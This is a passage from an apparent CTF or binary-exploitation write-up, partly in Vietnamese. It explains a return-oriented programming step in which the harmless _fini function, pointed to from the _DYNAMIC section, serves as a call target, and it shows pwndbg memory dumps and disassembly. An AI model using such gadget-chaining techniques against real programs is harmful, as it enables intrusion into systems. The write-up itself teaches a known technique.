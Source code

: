 Also noted in the article is that it’s possible to use pointers for the `_fini` function, located at `&_DYNAMIC`. That’s just what we need for `r12`, as we’ll zero `rbx` - `call [_fini+0*8]`

```
pwndbg> x/10gx &_DYNAMIC
0x600e00:       0x0000000000000001      0x0000000000000001
0x600e10:       0x0000000000000001      0x0000000000000038
0x600e20:       0x000000000000001d      0x0000000000000078
0x600e30:       0x000000000000000c      0x00000000004004d0
0x600e40:       0x000000000000000d      0x00000000004006b4  #--> call [r12]
pwndbg> disassemble  0x004006b4
Dump of assembler code for function _fini:
   0x00000000004006b4 <+0>:     sub    rsp,0x8
   0x00000000004006b8 <+4>:     add    rsp,0x8
   0x00000000004006bc <+8>:     ret
```

chon `_fini` function vi ham nay cha lam gi ma lai ret tro ve gadget cu

